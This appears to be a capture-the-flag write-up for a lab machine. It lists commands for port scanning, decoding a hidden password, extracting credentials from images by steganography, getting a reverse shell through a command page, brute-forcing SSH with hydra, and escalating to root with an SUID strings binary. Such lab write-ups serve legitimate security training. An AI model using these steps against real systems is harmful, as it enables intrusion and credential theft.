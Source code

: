 
# Jack-of-All-Trades

Jack is a man of a great many talents. The zoo has employed him to capture the penguins 
due to his years of penguin-wrangling experience, but all is not as it seems... We must 
stop him! Can you see through his facade of a forgetful old toymaker and bring this 
lunatic down?

---

We'll start with our usual nmap scan:

```bash
$ sudo nmap 10.10.125.218 -Pn -p- -A -vv -T4 -oN nmap-scan --script discovery,vuln --min-parallelism 55
```

Select running services with this command:

```bash
$ cat nmap-scan | grep -e '[0-9]\+/tcp[[:space:]].*' -o
```

[x] 22/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.10 ((Debian))

[x] 80/tcp open  ssh     syn-ack ttl 63 OpenSSH 6.7p1 Debian 5 (protocol 2.0)

We're also presennted with a couple of comments in html:

```
|     Comment:
|         <!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->
|     Comment: 
|_        <!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
```

First, decode comment #1 as follows:

```bash
$ echo "$COMMENT1" | base64 -d
```

Let's poke around the website. We can see a suspiciously-looking aimge of
dinasaur, called ***stego.jpg***. Download it:

```bash
$ wget http://10.10.125.218:22/assets/stego.jpg -O stego.jpg
```

Let's see what's inside(Supply the password from base64 comment):

```bash
$ steghide extract -sf stego.jpg 

$ cat creds.txt 
```

> Hehe. Gotcha!
> 
> You're on the right path, but wrong image!

What, are you kidding me...

Ok, naviagete to /assets and try another image(Same password):

```bash
$ wget http://10.10.125.218:22/assets/header.jpg -O header.jpg

$ steghide extract -sf header.jpg
```

Boom! We now have cms username and password!

Go to the /recovery.php and use those creds. We're presented with a page that
can run commands, apparently. Lets force it to execute a reverse shell.
Grab one reverse shell here [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). Think, which one is most likely to work.

Setup a listener:

```bash
$ nc -lvnp 8080
```

After snooping around a bit, I found a ***jacks_password_list*** in /home directory.
Let's bruteforce ssh service with it:

```bash
$ hydra -l jack -P jacks_password_list.txt 10.10.125.218 -s 80 ssh -V
```

And there you have it. Login as jack to the machine. We see a user.jpg, grab it:

```bash
$ scp -P 80 jack@10.10.125.218:/home/jack/user.jpg .
```

Open it with an image viewer and here's your "user" flag.

---

## *Rooting the machine*

Locate binaries that have SUID bit set:

```bash
$ find / -type f -perm -u=s 2>/dev/null
```

The ***strings*** binary is quite promising. We can just read the root flag:

```bash
$ strings /root/root.txt
```



